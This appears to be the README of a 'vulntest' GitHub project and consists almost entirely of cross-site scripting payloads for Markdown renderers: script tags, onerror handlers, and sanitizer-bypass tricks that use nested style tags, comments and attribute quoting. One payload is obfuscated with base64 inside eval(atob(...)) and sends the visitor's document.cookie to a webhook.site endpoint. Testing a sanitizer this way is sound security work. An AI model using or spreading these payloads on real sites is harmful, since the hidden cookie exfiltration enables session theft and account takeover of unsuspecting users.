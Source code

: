 # vulntest
md vulntest project

<!-- XSS with regular tags -->
<script>alert(1)</script>
<img src=x onerror=alert(1) />

<div id="1

![](contenteditable/autofocus/onfocus=confirm('qwq')//)">
-----------------------------------------------
<a title="a

<img src=x onerror=alert(1)>">yep</a>
------------------------------------------------
[x](y '<style>')<!--</style><div id="x--><img src=1 onerror=alert(1)>"></div>
----------------------------------------------
[<p x='<style onload=eval(atob(/bG9jYXRpb249YGh0dHBzOi8vd2ViaG9vay5zaXRlL2FiM2IyYjg5LTg1YTktNGU0YS1hNjg0LTUxN2M1ZjQwNmZmMj9mPWArZW5jb2RlVVJJQ29tcG9uZW50KGRvY3VtZW50LmNvb2tpZSk/.source))>](#'></p>)
----------------------------------------------
`<p x="`<img src=x onerror=alert(1)>"></p>